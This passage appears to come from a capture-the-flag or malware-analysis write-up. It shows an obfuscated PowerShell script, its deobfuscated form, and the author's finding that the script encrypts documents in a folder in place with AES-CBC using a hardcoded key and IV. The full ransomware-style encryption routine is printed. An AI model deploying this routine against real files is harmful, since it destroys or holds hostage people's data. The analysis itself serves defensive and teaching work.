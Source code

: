 ```powershell
    foreach (${F`ile} in ${f`i`LeS}) {.("{0}{1}" -f 'exis','t') -kCRbVFUY99 ${fi`LE}."FUlLna`ME"}
}
```

The powershell script seem to be a common obfuscation technique, so we can utilise PowerDecode to automate the deobfuscation process for us. I've also beautify them for a better analysis.

```powershell
sEt-ItEm 'VariabLE:YfKSE2' ([type]'COnvErT');
${5YNMz} = [tYPE]'sysTem.SeCuRITy.cryPTOGraphY.aeS';
${0sO} = [type]'SYStem.SEcurITy.crYptOgRAPhy.CiPHErmODe';
SEt-itEM VARiAblE:VFj4K ([tyPe]'sySTEm.IO.File');
${VRLHHUxY99} = '6P9UtZwHYuiKWQm6Nbow1PfP/DNCoFAp4dRa1RhWzHo='
${fQvXEpkE99} = 'ml6e2HwOgwcf7sD0sRzXbA=='
${bBQiulCU99} = (('C:\Users\admin\Desktop\important') -f '\')
if (-Not (Test-Path ${BBQIulcU99})) {exit}
${LtJeQlKx99} = '*.doc', '*.docx', '*.xls', '*.xlsm', '*.pdf', '*.txt'
function eXISt {
    param ([string]${kCrBVFuY99})

    ${CoYMVYdO99} =  ${YfkSe2}::'FromBase64String'.Invoke(${VRlhHUXy99})
    ${OHMFpKpA99} =   (Dir 'VArIable:yFksE2').vALUe::'FromBase64String'.Invoke(${FqvxEPke99})
    ${eLRVzypl99} =  ${VfJ4K}::'ReadAllBytes'.Invoke(${KCRBvFUy99})
    ${UElQTbxg99} =   (  ls  VARIAbLe:5ynmz ).vAluE::'Create'.Invoke()
    ${UElQtBxg99}.KeY = ${coYmVydo99}
    ${UeLQTBxG99}.IV = ${OHmFPKPa99}
    ${uELQTbXg99}.MODE = ${0So}::"cBc"
    ${BAdmwNXG99} = ${UElqTBxG99}.CreateEncryptor.Invoke()
    ${KoewTRzK99} = ${bADMwnxG99}.TransformFinalBlock.Invoke(${ElRvzypl99}, 0, ${eLRvzYpL99}.lengTh)
    ${VFj4K}::'WriteAllBytes'.Invoke(${KcRBVFuy99}, ${KOewTrZk99})
}
${WqcKNXml99} = 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run'
${fHYHvNoW99} = 'flag'
${dzefOxdP99} = Get-ItemProperty -Path ${WQckNxmL99} -Name ${fhyHVnow99} -ErrorAction 'SilentlyContinue'
if (-Not ${dzEFoxdp99}) {exit}
foreach (${fsXVdlTE99} in ${ltjEqlKx99}) {
    ${FIleS} = Get-ChildItem -Path ${bBQIUlcU99} -Recurse -Filter ${fsXVDLte99}
    foreach (${File} in ${fiLeS}) {exist -kCRbVFUY99 ${fiLE}.FUlLnaME}
}
```

Analyzing the script, the exist() function seem to be encrypting the files using AES-CBC with a base64 key (`6P9UtZwHYuiKWQm6Nbow1PfP/DNCoFAp4dRa1RhWzHo=`) and IV (`'ml6e2HwOgwcf7sD0sRzXbA==`).

```powershell
function eXISt {
    param ([string]${kCrBVFuY99})

    ${CoYMVYdO99} =  ${YfkSe2}::'FromBase64String'.Invoke(${VRlhHUXy99})
    ${OHMFpKpA99} =   (Dir  'VArIable:yFksE2' ).vALUe::'FromBase64String'.Invoke(${FqvxEPke99})
    ${eLRVzypl99} =  ${VfJ4K}::'ReadAllBytes'.Invoke(${KCRBvFUy99})
    ${UElQTbxg99} =   (  ls  VARIAbLe:5ynmz ).vAluE::'Create'.Invoke()
    ${UElQtBxg99}.KeY = ${coYmVydo99}
    ${UeLQTBxG99}.IV = ${OHmFPKPa99}
    ${uELQTbXg99}.MODE =   ${0So}::"cBc"
    ${BAdmwNXG99} = ${UElqTBxG99}.CreateEncryptor.Invoke()
    ${KoewTRzK99} = ${bADMwnxG99}.TransformFinalBlock.Invoke(${ElRvzypl99}, 0, ${eLRvzYpL99}.lengTh)
     ${VFj4K}::'WriteAllBytes'.Invoke(${KcRBVFuy99}, ${KOewTrZk99})
}
```
